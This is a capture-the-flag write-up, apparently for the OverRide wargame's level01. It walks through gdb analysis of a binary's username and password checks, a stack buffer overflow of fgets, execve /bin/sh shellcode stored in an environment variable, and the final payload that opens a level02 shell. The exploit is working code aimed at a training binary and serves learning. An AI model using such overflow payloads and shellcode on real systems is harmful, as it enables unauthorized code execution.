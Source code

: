 This binary take 2 differents inputs from fgets on STDIN.

In gdb we can see that there is 2 function to compare the inputs:

	0x08048464  verify_user_name
	0x080484a3  verify_user_pass

It compares the first input with dat_wil and the second one with admin.

	0x0804847d <+25>:	mov    $0x80486a8,%eax 
	...
	0x0804848b <+39>:	repz cmpsb %es:(%edi),%ds:(%esi) // Compare char per char

	(gdb) print (char *)0x80486a8
	$7 = 0x80486a8 "dat_wil"

	0x080484ad <+10>:	mov    $0x80486b0,%eax
	...
	0x080484bb <+24>:	repz cmpsb %es:(%edi),%ds:(%esi)

	(gdb) print (char *)0x80486b0
	$8 = 0x80486b0 "admin"

After searching a little bit we can find that it's possible to overflow the first fgets and rewrite the return adress

	(gdb) run < <(python -c 'print "dat_wil" + "B" * 329')

	********* ADMIN LOGIN PROMPT *********
	Enter Username: verifying username....

	Enter Password: 
	nope, incorrect password...


	Program received signal SIGSEGV, Segmentation fault.
	0xf7000a42 in ?? ()

With that said, it's time to write a shellcode inside an environement variable beacause there is no fonction usable inside the code stack itself.

	export SHELLCODE=`python -c 'print "\x90" * 242 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"'`

In gdb we search for the shellcode address, it's 0xffffd88a

	x/20s ((char **)*environ)

	0xffffd7c2:	 "SHELLCODE=\220\220\220\220\220\220\220\220\220"...
	0xffffd88a:	"\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\061\300Ph//shh/bin\211\343\211\301\211°\v̀1\300@̀"
	0xffffd8db:	 "SHELL=/bin/bash"
	0xffffd8eb:	 "TERM=xterm-256color"
	0xffffd8ff:	 "SSH_CLIENT=192.168.56.1 58954 4242"
	0xffffd922:	 "SSH_TTY=/dev/pts/0"
	0xffffd935:	 "USER=level01"

And now we can use create the payload: (python -c "print('dat_wil' + 'B'* 328 + '\x8a\xd8\xff\xff')"; cat) |./level01

	level01@OverRide:~$ (python -c "print('dat_wil' + 'B'* 328 + '\x8a\xd8\xff\xff')"; cat) |./level01
	********* ADMIN LOGIN PROMPT *********
	Enter Username: verifying username....

	Enter Password: 
	nope, incorrect password...

	whoami
	level02